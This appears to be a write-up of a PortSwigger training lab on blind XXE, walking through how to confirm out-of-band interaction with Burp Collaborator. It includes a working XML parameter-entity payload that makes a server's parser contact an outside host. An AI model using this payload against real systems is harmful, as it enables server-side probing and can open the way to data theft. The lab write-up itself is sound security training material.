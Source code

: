 # Blind XXE with out-of-band interaction via XML parameter entities

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities) has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:

```text
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```

![XXE](../../_static/images/xxe8.png)

5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![XXE](../../_static/images/xxe9.png)

If you don't see any interactions listed, wait a few seconds and try again. 

## Exploitability

An attacker needs to use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._

